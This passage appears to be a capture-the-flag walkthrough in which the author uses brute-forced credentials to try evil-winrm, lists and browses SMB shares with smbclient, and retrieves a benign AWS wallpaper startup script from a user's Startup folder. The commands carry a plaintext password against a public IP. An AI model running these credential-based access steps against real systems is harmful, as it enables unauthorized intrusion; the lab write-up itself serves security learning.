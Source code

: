 ```md
[+] 54.234.92.201:445     - 54.234.92.201:445 - Success: '.\jsmith:Password@123'
[*] 54.234.92.201:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
We have user jsmith with login password and this user has access to smb and not winrm
You can check it with evilwinrm but we cant login so we need to play with smb
```md
evil-winrm -i 54.234.92.201 -u jsmith -p Password@123
```
We can now try to list shares like we did earlier
```md
smbclient -L //54.234.92.201 -U jsmith%Password@123
```
```md
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	confidential    Disk      Confidential Information for authorized personnels only
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	secret          Disk      
	SYSVOL          Disk      Logon server share 
	Users$          Disk      Domain Users
	wwwroot         Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 54.234.92.201 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```
Many shares to look into them. After a while, i got username and password of another user but another interest file i found
the first file was these that was seems interested 

```md
smbclient //54.234.92.201/Users$ -U jsmith%Password@123
```
```
└─$ smbclient //54.234.92.201/Users$ -U jsmith%Password@123
Try "help" to get a list of possible commands.
smb: \> cd "jsmith\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
smb: \jsmith\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\> dir
  .                                   D        0  Thu Feb 24 00:53:14 2022
  ..                                  D        0  Thu Feb 24 00:53:14 2022
  RunWallpaperSetupInit.cmd           A      744  Thu Feb 24 01:01:03 2022

		7863807 blocks of size 4096. 2616990 blocks available
smb: \jsmith\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\> get RunWallpaperSetupInit.cmd
getting file \jsmith\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\RunWallpaperSetupInit.cmd of size 744 as RunWallpaperSetupInit.cmd (0.8 KiloBytes/sec) (average 0.8 KiloBytes/sec)
smb: \jsmith\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\> q
┌──(blackninja23㉿arena)-[~/CYSEC]
└─$ cat RunWallpaperSetupInit.cmd 
@Echo Off
REM Render instance information on current wallpaper if this is the wallpaper was never changed by user.
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoProfile -NonInteractive -NoLogo -WindowStyle hidden -ExecutionPolicy Unrestricted "Import-Module "C:\ProgramData\Amazon\EC2-Windows\Launch\Module\Ec2Launch.psd1"; Set-Wallpaper -Initial" & REM DELETEME
type "%~f0" | findstr /v DELETEME > "%~dp0RunWallpaperSetup.cmd"
DEL /Q /F "%~f0" & REM DELETEME
GOTO :EOF & REM DELETEME
```